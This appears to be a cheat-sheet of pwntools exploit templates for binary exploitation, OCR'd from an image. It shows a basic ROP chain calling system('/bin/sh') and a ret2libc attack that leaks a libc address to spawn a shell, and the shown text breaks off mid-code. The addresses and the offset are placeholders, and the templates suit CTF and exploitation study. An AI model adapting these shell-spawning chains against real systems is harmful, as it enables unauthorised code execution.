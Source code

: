 **Basic ROP chain (call system("/bin/sh")):**

```python
from pwn import *

# Binary info
elf = ELF('./vulnerable_binary')
rop = ROP(elf)

# Gadgets
pop_rdi = 0x401234  # pop rdi; ret
bin_sh = 0x402000   # Address of "/bin/sh" string
system_addr = elf.plt['system']

# Build ROP chain
payload = b"A" * offset
payload += p64(pop_rdi)      # pop rdi; ret
payload += p64(bin_sh)       # rdi = "/bin/sh"
payload += p64(system_addr)  # call system

# Send exploit
p = process('./vulnerable_binary')
p.sendline(payload)
p.interactive()
```

**ret2libc attack:**

```python
from pwn import *

# Leak libc address
elf = ELF('./vulnerable_binary')
rop = ROP(elf)

# Stage 1: Leak libc address
pop_rdi = 0x401234
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

payload = b"A" * offset
payload += p64(pop_rdi)
payload += p64(puts_got)      # puts(puts@GOT) → leak address
payload += p64(puts_plt)
payload += p64(main_addr)     # Return to main

p = process('./vulnerable_binary')
p.sendline(payload)

# Receive leaked address
p.recvuntil(b"Input: ")
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info(f"Leaked puts: {hex(leaked_puts)}")

# Calculate libc base
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address = leaked_puts - libc.symbols['puts']
log.info(f"Libc base: {hex(libc.address)}")

# Stage 2: Call system with libc address
bin_sh = next(libc.search(b'/bin/sh'))
system_addr = libc.symbols['system']

payload2 = b"A" * offset
```